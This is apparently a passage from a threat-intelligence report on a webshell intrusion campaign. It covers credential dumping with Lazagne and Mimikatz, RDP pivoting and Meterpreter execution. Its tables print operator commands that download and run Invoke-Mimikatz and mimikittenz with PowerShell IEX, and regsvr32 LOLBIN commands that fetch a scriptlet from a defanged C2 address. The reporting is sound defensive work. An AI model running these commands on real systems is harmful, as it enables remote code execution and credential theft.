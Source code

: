 
Table. 1 Operator commands executed through webshell
After gaining situational awareness, the operators attempt to load/invoke a number of tools to dump local and domain credentials. In some cases, the threat actor attempts to install Nmap and Advanced Port Scanner, possibly to scan internal systems.
Dumping credentials
Credential dumping methods differed from one case to another. In some instances, Lazagne.exe was used, in others Mimikatz variants were used either by executing the respective PE binary or by invoking a base64-encoded PowerShell version from a GitHub project. In a smaller number of instances, possibly due to AV detection, the operators dumped the LSASS.exe process to disk, most probably to process it offline for credential dumping.



Command
Comment


IEX (New-Object
Net.WebClient).DownloаdString(“httрs://raw.githubusercontеn
t.com/BC-
SECURITY/Empire/master/data/module_source/crеdentials/Invok
e-Mimikatz.ps1”); Invoke-Mimikаtz -Command
privilеge::dеbug; Invoke-Mimikаtz -DumpCrеds;
Decoded base64 command issued through webshell to invoke Mimikatz to dump passwords


IEX (New-Object
Net.WebClient).DownloаdString(‘httрs://raw.githubuserconten
t.com/putterpаnda/mimikittеnz/master/Invoke-
mimikittеnz.ps1’); Invoke-mimikittеnz
Decoded base64 command issued through webshell to invoke Mimikittenz to dump passwords



Table. 2 Operators invoking Mimikatz variants
Once credentials are obtained, it is believed the operators use Remote Desktop Protocol to pivot into internal systems, or reachable systems that are likely using the stolen credentials (e.g., trusted partners). This is also reinforced by timeline analysis where the threat actor deployed a webshell at another web server in the same network without exploiting a file upload form/vulnerability.
The many ways to achieve Execution
Further commands were executed to bypass the AV engine and establish a Meterpreter session with the operators’ C2 server. After a Meterpreter session is established, the operators attempt to again invoke Mimikatz variants to gain system and/or domain credentials. It’s worth mentioning that in older intrusions, the threat actor deployed Explosive RAT instead of using Meterpreter.



Command
Comment


cmd.exе /c “regsvr32 /s /n /u /i:httр://200.159.87[.]196:3306/jsJ13j.sct
scrobj.dll 2>&1
Alternative methods to achieve command execution while bypassing security controls using LOLBINs such as REGSVR32 and MSIEXEC


cmd.exе /c “powershell -command “regsvr32 /s /n /u
/i:httр://200.159.87[.]196:3306/jsJ13j.sct scrobj.dll” 2>&1
